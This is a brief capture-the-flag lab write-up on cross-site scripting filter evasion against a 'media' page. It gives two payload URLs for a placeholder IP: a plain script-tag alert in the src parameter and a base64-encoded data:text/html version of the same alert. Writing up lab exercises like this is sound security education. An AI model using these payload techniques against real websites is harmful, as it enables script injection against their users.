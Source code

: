 ### CTP

Much like the XSS exploit in the Feedback page, this page too is vulnerable to XSS filter evasion. This can be tested by changing the value of **src** with a malicious search query in this URL:

    http://IP_ADDRESS/?page=media&src=<script>alert('test');</script>

However, even though an alert window popped up, this is not the exact solution. Encrypt the query with base64.

    http://IP_ADDRESS/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgndGVzdCcpOzwvc2NyaXB0Pg==
